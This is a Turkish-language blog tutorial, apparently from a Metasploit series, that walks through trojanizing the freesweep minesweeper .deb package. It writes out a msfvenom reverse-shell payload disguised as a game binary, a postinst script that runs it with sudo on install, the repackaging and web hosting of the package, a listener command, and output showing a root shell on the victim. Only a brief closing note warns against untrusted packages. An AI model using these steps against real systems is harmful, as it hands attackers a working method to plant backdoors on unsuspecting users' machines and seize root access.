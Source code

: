 ```yaml
---
draft: false

title:  'MSF Binary Linux Trojan'
date: '2017-05-20T13:12:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için\_.exe\_uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda,\_.deb\_uzantılı bir dosya oluşturacağız." 
 
url:  /tr/msf-binary-linux-trojan/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için `.exe` uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda, `.deb` uzantılı bir dosya oluşturacağız.



Ubuntu işletim sistemini hedef alan bu dosyanın oluşturulması ilk olarak biraz karışık gelebilir ancak adımları teker teker inceleyerek devam ederseniz kavramak daha kolay olacaktır.



Öncelikle, içine payload yerleştireceğimiz bir programa ihtiyacımız var. Örnek olarak “Mine Sweeper” programını kullanalım.



## Paketi indirelim



Paketi `--download-only` parametresiyle indirdiğimizde, işletim sistemimize kurulmayacaktır. Daha sonra indirdiğimiz paketi üzerinde çalışmak üzere oluşturacağımız `/tmp/evil` klasörüne taşıyacağız.


```bash
root@kali:~# apt-get --download-only install freesweep
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# mkdir /tmp/evil
root@kali:~# mv /var/cache/apt/archives/freesweep_0.90-1_i386.deb /tmp/evil
root@kali:~# cd /tmp/evil/
root@kali:/tmp/evil#
```



Artık `/tmp/evil` klasörünün içerisinde `freesweep_0.90-1_i386.deb` isimli bir Debian paketimiz var. İndirdiğiniz .deb uzantılı dosyanın ismi ve sürüm numarası farklı olabilir. İsmini `ls` komutuyla kontrol ederek örneklerdeki komutlara o şekilde uygulamalısınız.



## Paketi Açalım



Şimdi bu `.deb` uzantılı paketi, sıkıştırılmış bir dosyayı açmaya benzer şekilde açmamız gerekiyor. Bu paketi aşağıdaki komutla `/tmp/evil` klasörü içinde `work` klasörüne çıkartıyoruz. Ardından, bizim ilave edeceğimiz özelliklerin bulunacağı `DEBIAN` isimli bir klasörü `/tmp/evil/work` klasörü altına oluşturuyoruz.


```bash
root@kali:/tmp/evil# dpkg -x freesweep_0.90-1_i386.deb work
root@kali:/tmp/evil# mkdir work/DEBIAN
```



## control Dosyası oluşturalım



Debian klasörünün içerisinde `control` isimli bir dosya oluşturup içerisine aşağıdaki Metni yapıştırıp kaydediyoruz. Dosya içeriği aşağıdaki gibi `cat control` komutuyla kontrol ediyoruz.



**control** dosyası içeriği


```bash
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers **(**ubuntu-motu@lists.ubuntu.com**)**
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works **in **any visual text display - **in **Linux console, **in **an xterm, and **in
 **most text-based terminals currently **in **use.
```



## postinst dosyası oluşturalım



Kurulum sonrası çalışması için ayrıca bir bash script dosyasına daha ihtiyacımız var. Yine yukarıdaki gibi `DEBIAN` klasörü içine `postinst` isimli bir dosya oluşturuyoruz. İçerisine aşağıdaki kod satırlarını yapıştırıyoruz.



**postinst** dosya içeriği


```bash
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores &amp; /usr/games/freesweep &amp;
```



## Payload Oluşturalım



Şimdi içerisinde zararlı kodların olduğu dosyayı oluşturabiliriz. Bunun için aşağıdaki komutu kullanarak `linux/x86/shell/reverse_tcp` payload modülünü kullanacağız. Komut içerisinde `LHOST` ve `LPORT` olarak verdiğimiz değişkenleri kendiniz belirleyebilirsiniz.


```bash
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST**=**192.168.1.101 LPORT**=**443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 98
Payload size: 98 bytes
Saved as: /tmp/evil/work/usr/games/freesweep_scores
```



## Yeniden paketleme



Artık, `postinst` dosyamızı çalıştırılabilir hale getirip `.deb` paketini derleyebiliriz. Komut sonucunda oluşturulacak `work.deb` paketinin ismini `freesweep.deb` olarak değiştirip Apache Server klasörüne (`/var/www` veya `/var/www/html`) yükleyebiliriz. Artık dosyamız Web sunucuda indirilebilir durumdadır.


```bash
root@kali:/tmp/evil/work/DEBIAN# chmod 755 postinst
root@kali:/tmp/evil/work/DEBIAN# dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `freesweep' in `/tmp/evil/work.deb'.
root@kali:/tmp/evil# mv work.deb freesweep.deb
root@kali:/tmp/evil# cp freesweep.deb /var/www/
```



## Dinleyici Handler Oluşturma



Şimdi, bir tıklama veya çalıştırma ile gelecek bağlantı isteklerini dinlemek için dinleyici oluşturalım. Burada komuta vereceğimiz `LHOST` ve `LPORT` değerleri, payload oluştururken girilen değerler ile aynı olmalıdır.


```bash
root@kali:~# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"
PAYLOAD **=>** linux/x86/shell/reverse_tcp
LHOST **=>** 192.168.1.101
LPORT **=>** 443
> Started reverse handler on 192.168.1.101:443
> Starting the payload handler...
```



## Sonuç



Herhangi bir kullanıcı, bu hazırladığımız `freesweep.deb` paketini indirip çalıştırdığında dinleme yapan `exploit/multi/handler` modülümüz hedef bilgisayarda oturum açacaktır.


```bash
ubuntu@ubuntu:~$ wget <a href="http://192.168.1.101/freesweep.deb">http://192.168.1.101/freesweep.deb</a>
ubuntu@ubuntu:~$ sudo dpkg -i freesweep.deb

> Sending stage **(**36 bytes**)**
> Command shell session 1 opened **(**192.168.1.101:443 -> 192.168.1.175:1129**)**

ifconfig
eth1 Link encap:Ethernet HWaddr 00:0C:29:C2:E7:E6
inet addr:192.168.1.175 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:49 errors:0 dropped:0 overruns:0 frame:0
TX packets:51 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:43230 **(**42.2 KiB**)** TX bytes:4603 **(**4.4 KiB**)**
Interrupt:17 Base address:0x1400
...snip...

hostname
ubuntu
id
uid**=**0**(**root**)** gid**=**0**(**root**)** groups**=**0**(**root**)**
```



## Tavsiye



Görüldüğü gibi zararlı yazılımlar sadece Windows’a özel değildir. Linux kullanıcılarının da tıkla ve çalıştır programlara dikkatle yaklaşması gerekmektedir. Güvenilir olmayan kaynaklardan paket yüklememenizi tavsiye ediyoruz.
